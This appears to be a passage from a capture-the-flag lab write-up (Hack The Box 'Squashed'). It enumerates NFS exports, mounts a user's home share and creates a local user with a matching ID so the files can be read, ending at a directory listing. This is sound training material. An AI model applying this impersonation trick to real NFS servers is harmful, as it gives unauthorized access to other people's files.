 
## TCP 2049 - NFS

Refer - https://book.hacktricks.xyz/network-services-pentesting/nfs-service-pentesting


### Enum

```bash
┌──(root㉿kali)-[~/squashed]
└─# showmount -e squashed.htb 
Export list for squashed.htb:
/home/ross    *
/var/www/html *
```


### Mount

```bash
┌──(root㉿kali)-[~/squashed]
└─# mkdir /mnt/ross && mkdir /mnt/html                                              
```


#### /home/ross

```bash
┌──(root㉿kali)-[/mnt]
└─# mount -t nfs squashed.htb:/home/ross /mnt/ross    
```

Add user to local machine so we have permissions

```
useradd test
su - test

$ ls -la
total 68
drwxr-xr-x 14 test test 4096 Jan 15 18:36 .
drwxr-xr-x  5 root root 4096 Jan 16 09:14 ..
lrwxrwxrwx  1 root root    9 Oct 20 09:24 .bash_history -> /dev/null
drwx------ 11 test test 4096 Oct 21 10:57 .cache
drwx------ 12 test test 4096 Oct 21 10:57 .config
drwxr-xr-x  2 test test 4096 Oct 21 10:57 Desktop
drwxr-xr-x  2 test test 4096 Oct 21 10:57 Documents
drwxr-xr-x  2 test test 4096 Oct 21 10:57 Downloads
drwx------  3 test test 4096 Oct 21 10:57 .gnupg
drwx------  3 test test 4096 Oct 21 10:57 .local
drwxr-xr-x  2 test test 4096 Oct 21 10:57 Music
drwxr-xr-x  2 test test 4096 Oct 21 10:57 Pictures
drwxr-xr-x  2 test test 4096 Oct 21 10:57 Public
drwxr-xr-x  2 test test 4096 Oct 21 10:57 Templates
drwxr-xr-x  2 test test 4096 Oct 21 10:57 Videos
lrwxrwxrwx  1 root root    9 Oct 21 09:07 .viminfo -> /dev/null
-rw-------  1 test test   57 Jan 15 18:36 .Xauthority
-rw-------  1 test test 2475 Jan 15 18:36 .xsession-errors
-rw-------  1 test test 2475 Dec 27 10:33 .xsession-errors.old
```
